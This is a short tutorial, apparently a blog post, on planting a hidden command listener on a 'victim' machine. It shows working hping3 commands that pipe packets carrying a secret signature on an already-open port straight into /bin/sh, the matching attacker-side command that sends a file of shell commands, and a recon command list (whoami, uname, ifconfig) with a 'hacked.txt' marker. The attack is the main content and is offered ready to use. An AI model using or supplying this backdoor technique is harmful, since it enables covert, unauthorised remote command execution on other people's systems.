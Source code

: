 ```yaml
---
title:  "Hidden Command Listener"
---
```


![Logo](/assets/images/backdoor.jpg)

## Create a hidden command listener by reusing an open port

### Scenario:
* **Box A** - Victim, running a network service on port 8834. We'll reuse this port!
* **Box B** - Attacker host behind NAT. Will transmit commands to the listener waiting on the victim.

This is similar to a reverse shell from box A to box B, except that B will need another way to view results of the commands executed on A:

**A (Victim's box)**:
```bash
$ sudo hping3 --listen SecretSignature -I vboxnet0 -p 8834 | /bin/sh
```

Explanation for the parameters:
```
--listen  - Listen mode. Waits for packets containing the signature and dump the data from signature to the end of the packet 
-I        - Interface to listen on
-p        - Listening port
```

This will intercept packets and dump the content after a matching signature. Commands will be passed to the shell to be executed. Another trick would be needed to view the output of the commands though.

**B (Attacker's box**: 
```bash
$ sudo hping3 --count 1 --data 200 --file commands.txt --sign SecretSignature 192.168.56.1 -V -p 8834
```

Explanation for the parameters:
```
--count 1   - Stop after sending 1 packet
--data 200  - Set packet body size in bytes
--file      - Fill packet with data from file
--sign      - Fill first a signature in the packet
-V          - Verbose mode
-p          - Destination port
```

The content of the commands file:
```bash
$ cat commands.txt
echo 123 > hacked.txt
whoami > log.txt
uname -a >> log.txt
pwd >> log.txt
ls -al >> log.txt
ifconfig -a >> log.txt

```

**Note**: The new line at the end is important to get the last command executed !

The commands should have been executed on victim's machine (A) and results saved in the corresponding log file.
